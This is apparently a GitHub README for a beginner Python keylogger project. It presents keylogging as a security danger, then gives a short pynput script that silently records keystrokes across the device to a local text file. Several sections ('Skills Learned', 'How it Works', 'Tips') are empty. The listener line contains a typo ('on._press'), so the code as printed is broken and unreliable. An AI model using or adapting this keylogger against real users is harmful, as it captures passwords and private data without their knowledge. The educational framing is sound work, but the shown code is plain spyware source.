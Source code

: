 # Keylogger-Python &nbsp; <img src="https://github.com/user-attachments/assets/fa080d46-0f3c-4c19-a3fb-6324e1b6cdf5" width="36">

## Background and Significance 
Keylogging is the method of storing key-strokes on a device, particularly without the user knowing. Having a program such as this running on your device will result in the unaware surrendering of confidential data to malicious hackers, including login credentials and banking details.

## Objective
This mini-project aims to create a successful key-logging script, that when executed, will capture keystrokes made by the user in any environment on the device and store them in a text file automatically for viewing. This project therefore demonstrates the basics of keylogging, highlighting the dangers of this simple technique.
## Skills Learned

## Tools/Languages Used
- VSCode
- Python

## Script
<code>
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on._press=keyPressed) 
    listener.start()
    input()
</code>

## How it Works
## Tips
